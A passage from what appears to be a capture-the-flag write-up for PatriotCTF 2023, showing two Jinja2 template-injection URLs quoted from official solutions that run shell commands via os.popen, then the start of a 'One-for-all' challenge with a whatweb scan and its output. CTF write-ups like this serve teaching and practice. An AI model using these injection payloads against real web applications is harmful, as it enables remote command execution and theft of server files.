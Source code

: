 > Other ways from official writeups
> ```python
> http://127.0.0.1:5000/{{url_for.__globals__.os.__dict__.popen(request.args.file).read()}}?file=whoami
> 
> http://chal.pctf.competitivecyber.club:5555/{{url_for.__globals__.os.__dict__.popen(request.args.file).read()}}?file=cat ../flag.txt
> ```
{: .prompt-tip }

## One-for-all


### Info

One four all or all four one?

Find all 4 parts of the flag, ez right?

_Flag format: PCTF{}_

_Author: @sau_12_

[http://chal.pctf.competitivecyber.club:9090/](http://chal.pctf.competitivecyber.club:9090/){:target='_blank'}

### Solve


#### Enum

![](/assets/obsidian/78b42a7d08dd6235f315c9de323998be.png){:target='_blank'}

```bash
┌──(bravosec㉿fsociety)-[/media/sf_kali-share/patriotctf2023/nuclei_9090]
└─$ whatweb -a 3 http://chal.pctf.competitivecyber.club:9090/
http://chal.pctf.competitivecyber.club:9090/ [200 OK] Cookies[name], Country[UNITED STATES][US], HTML5, HTTPServer[Werkzeug/2.3.7 Python/3.11.5], IP[184.72.110.40], Python[3.11.5], Werkzeug[2.3.7]
```
